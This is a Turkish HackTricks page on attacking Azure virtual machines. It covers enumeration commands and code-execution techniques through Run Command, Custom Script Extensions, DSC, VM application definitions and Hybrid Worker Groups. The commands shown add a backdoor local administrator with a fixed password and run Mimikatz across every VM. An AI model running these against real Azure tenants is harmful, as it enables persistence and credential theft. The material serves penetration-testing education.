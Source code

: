 # Az - Sanal Makineler ve Ağ

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Temel bilgiler

[Dokümantasyondan:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure sanal makineler, Azure'ın sunduğu birkaç türden biridir. Genellikle, diğer seçeneklerin sunmadığı şekilde hesaplama ortamı üzerinde daha fazla kontrol istediğinizde sanal makine seçersiniz. Bu makale, bir sanal makine oluşturmadan önce dikkate almanız gereken bilgileri, nasıl oluşturacağınızı ve nasıl yöneteceğinizi size sunar.

## Azure Ağ Bilgisi

Azure ağları, **farklı varlıklar ve yapılandırma yöntemleri içerir.** Farklı Azure ağ varlıklarının kısa **açıklamalarını**, **örneklerini** ve **sıralama** komutlarını aşağıdaki bağlantıda bulabilirsiniz:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**, Azure portalı üzerinden SSL üzerinden güvenli, tamamen yönetilen bir RDP (Uzak Masaüstü Protokolü) ve SSH (Güvenli Kabuk) erişim çözümü sunar. Azure Sanal Ağı içinde entegre edilmiştir ve özel IP'leri kullanarak VM'lere RDP ve SSH bağlantısı sağlar, böylece genel IP atamaları ve VM erişimi için NSG kural yapılandırmalarıyla ilgili geleneksel yöntemlere göre daha güvenli ve kullanışlı bir alternatif oluşturur. Geliştiriciler ve BT personeli, web tarayıcılarını kullanarak Azure portalından VM'lere güvenli bir şekilde erişebilir, bu da geliştirme ve test ortamları için süreci kolaylaştırır.

Aboneliğinizdeki tüm Azure Bastion Sunucularını listelemek için aşağıdaki komutu kullanabilirsiniz:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Sanal Makine Saptama
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Bir sanal makinede komut çalıştırma**

### **VM'de AAD Oturumu Açma**

AzureAD üzerinden kimlik doğrulaması yapılan kullanıcılara erişim izni vermek mümkündür. Örneğin, bir **Linux VM'ye** erişmeye çalışırken `ssh username@azure-corp.com@1.1.1.1` (oturum açmaya çalışırken kullanılan azurecorp ile birlikte **e-postayı kullanmak önemlidir**) gibi bir hata alabilirsiniz:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Sadece **bu talimatları takip edin** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) adresine gidin ve kodu belirtin, kimlik bilgileri olarak e-posta ve şifreyi kullanın ve SSH üzerinden bağlantı kurabilirsiniz (bu kullanıcının yapabilmesi için yeterli izinlere sahipse: `Virtual Machine Administrator Login` veya `Virtual Machine User Login` rolü).

### **Komut Çalıştır**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Özel Komut Uzantısı Çalıştırma**

Azure sanal makine (VM) uzantıları, **küçük uygulamalar** olup, **Azure VM'lerinde** dağıtım sonrası yapılandırma ve otomasyon **görevleri** sağlar. Örneğin, bir sanal makine yazılım kurulumu, antivirüs koruması veya içinde bir komut dosyası çalıştırma yeteneği gerektiriyorsa, bir VM uzantısı kullanabilirsiniz.

Bu nedenle, yazma erişiminiz varsa, keyfi kodu yürütebilirsiniz:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC), Ansible'ye benzer bir PowerShell aracıdır ve bir ana bilgisayarı kod aracılığıyla yapılandırmak için kullanılır. DSC, Azure ile entegre olur ve belirli yapılandırma dosyalarının yüklenmesine izin verir. Bu dosyalar katı bir sözdizimine uymalıdır. Özellikle, Azure'daki DSC uzantısı, belirli biçimlendirme kriterlerini karşılayan dosyalardan komutları yürütebilir, hatta DSC standartları için doğru olmayan bir sözdizimine sahip olsalar bile. Bu durum, sağlanan şekilde gösterildiği gibi.

Bu komutların yürütülmesi, Az PowerShell'deki [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) işlevi tarafından kolaylaştırılır. Gereksinimler arasında tanımlı bir işleve sahip bir **.PS1** dosyası ve dosyanın bir **.zip** dosyasına sıkıştırılması bulunur. DSC için sözdizimi doğru olmasa bile, kod hala yürütülür. Ancak, uzantı yürütme durumunu "başarısızlık" olarak işaretler ve başarısızlık mesajı tarafından üzerine yazıldığı için komuttan herhangi bir çıktı görüntülenmez.

### VM Uygulama Tanımları

VM Uygulama Tanımları, bir Azure VM'ye sürümlendirilmiş uygulamaların tekrarlanabilir bir şekilde dağıtılmasını sağlar. Bu kaynak, VM'ler arasında uygulamaların dağıtımını ve güncellenmesini destekler. Bunun için **`New-AzGalleryApplication`** ve **`New-AzGalleryApplicationVersion`** gibi komutlarla birkaç adım gereklidir.

Bu yöntemle uygulamaların veya komutların yürütülmesi, uygulama bir VM'ye uygulandığında otomatik olarak yüklenen **"VMAppExtension"** tarafından gerçekleştirilir. Uzantı, belirtilen URI'den dosyayı alır ve uygulama adıyla, uzantısız olarak adlandırır. Dosyanın doğru şekilde yürütülmesi için REST API çağrısındaki "ManageActions" alanının dosyayı uygun uzantıyla yeniden adlandırması gerekmektedir. Bu yöntemin kurulumu tamamlandığında, sağlanan şekilde gösterilen yapıya benzeyecektir.

Ancak, bu yürütme yöntemi nispeten yavaştır ve bir uygulamanın veya komutun yürütülmesi yaklaşık 3-4 dakika sürer. Bu işleme ilişkin dosyalar, uygulama kopyası için `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` ve yürütme durumu için `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` dizinlerinde depolanır.

Her iki teknik de Azure ortamlarında komutların yürütülmesi ve uygulamaların dağıtılması için benzersiz yöntemler sunar, her birinin kendi gereksinimleri, adımları ve dikkate alınması gereken noktaları vardır.

### Azure'da Hybrid Worker Groups (HWG)

[**Hybrid Worker Groups (HWG)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker), bir Automation Hesabında yapılandırılan Runbook'ların, belirlenen HWG'nin bir parçası olan bir Azure Sanal Makinesi (VM) üzerinde yürütülmesine olanak tanıyan bir özelliktir. Bu yürütme, VM üzerine Runbook kodunu dağıtan bir uzantı tarafından kolaylaştırılır. Bu sürecin önemli bir yönü, gerçek kimlik bilgilerinin yürütmede bir faktör olmamasıdır çünkü kod, özellikle **SYSTEM** veya root olarak yükseltilmiş ayrıcalıklarla çalışır, sağlanan şekilde gösterildiği gibi.

Windows 10 VM'lerini kullananlar için önemli bir ayrıntı, Runbook için PowerShell sürümünü belirtme gerekliliğidir. PowerShell Sürümünün 7.1 yerine 5.1 olarak ayarlanması gerekmektedir. Bu gereklilik, PowerShell 7.1'in bu VM'lerde varsayılan olarak yüklü olmamasından kaynaklanır ve 7.1 sürümü belirtilirse betik yürütmesinde bir hata oluşur.

Azure'ın bu özelliği, hibrit ortamlarda görevleri otomatikleştirmek ve yönetmek için güçlü bir yöntem sunar, Azure VM'lerinde merkezi yönetim ve görev yürütme imkanı sağlar.

## Referanslar

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ile sıfırdan kahraman olmak için AWS hackleme öğrenin</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklam vermek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin.
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin.
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da** takip edin.
* Hacking hilelerinizi [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek paylaşın.

</details>
